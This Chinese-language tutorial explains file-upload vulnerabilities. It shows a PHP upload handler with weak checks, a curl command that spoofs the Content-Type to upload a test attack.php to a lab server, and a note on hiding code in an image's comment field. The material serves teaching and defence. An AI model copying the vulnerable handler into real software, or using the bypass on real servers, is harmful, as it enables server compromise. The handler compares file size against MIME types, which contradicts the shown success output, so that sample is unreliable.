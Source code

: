 上传文件漏洞也是一种常见的web漏洞，攻击者可以用利用服务器端的上传文件漏洞绕过安全验证将代码提交到服务器端，并想办法让代码文件被执行。一单可执行的代码上传成功，会造成比较严重的安全问题，比如获取服务器权限，为攻击者开后门，或者让服务器超载，破快服务器的可用性，甚至是上传病毒，木马。

​

​ 我们通过一个例子演示利用文件上传漏洞进行攻击的例子，下面的代码负责接受上传文件，并保存在`./uploads/`目录中（在单机应用的场景下，文件和应用程序保存在一起是比较常见的）。

```
<?php
//上传文件路径
$upload_path = "./uploads/";
$upload_file_path = $upload_path . basename($_FILES['uploadedfile']['name']);

$size = $_FILES['uploadedfile']['size'];
$type = $_FILES['uploadedfile']['type'];

//验证文件大小和文件类型
if ($size < 1000000 && ($size == 'image/jpeg' || $size == 'image/png')) {

    print_r($_FILES['uploadedfile']);
    echo "\n";

    if (move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $upload_file_path)) {
        echo "上传成功\n";
    } else {
        echo "上传失败\n";
    }
}
?>
```

上面的代码有基本的校验逻辑，比如文件大小验证，和文件类型验证，看似问题不大，其实不然。我们构造一个 php 脚本，代码如下，通过 curl 命令伪造成图片类型并上传。

PHP 脚本，文件名为 attack.php

```
<?php
echo "attack success !!!";
?>
```

使用 curl 命令上传文件，并将 Content-Type 改成

`image/jpeg`

。

```
$ curl 'http://192.168.56.101/upload.php'  -H 'Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryCHKmsM8kfbHlN8Ff' --data-binary $'------WebKitFormBoundaryCHKmsM8kfbHlN8Ff\r\nContent-Disposition: form-data; name="uploadedfile"; filename="attack.php"\r\nContent-Type: image/jpeg\r\n\r\n\r\n------WebKitFormBoundaryCHKmsM8kfbHlN8Ff--\r\n'

Array
(
    [name] => attack.php
    [type] => image/jpeg
    [tmp_name] => /home/bitnami-nginxstack/php/tmp/phpjWsmp3
    [error] => 0
    [size] => 0
)

上传成功
```

，脚本文件被成功上传到服务器上，通过[http://192.168.56.101/uploads/attack.php](http://192.168.56.101/uploads/attack.php)可以访问，从而达到攻击目的，通过这种方式攻击者可以上传任意类型的文件。

​ 上面介绍的是直接将脚本文件未造成图片类型实现攻击，某些情况下还可以将脚本嵌入到图片中，比如我么能通过GIMP随便编辑一张图片，在图片导出时，在Comment字段中添加我们的攻击代码，这样会修改图片的头信息，代码文本嵌入到图片中，但图片还是正常合法的图片。如下图所示：

EA6864F3-DD35-40B2-A397-00021799DA31.png

通过文本查看攻击可以看到，代码已经嵌入到图片中。

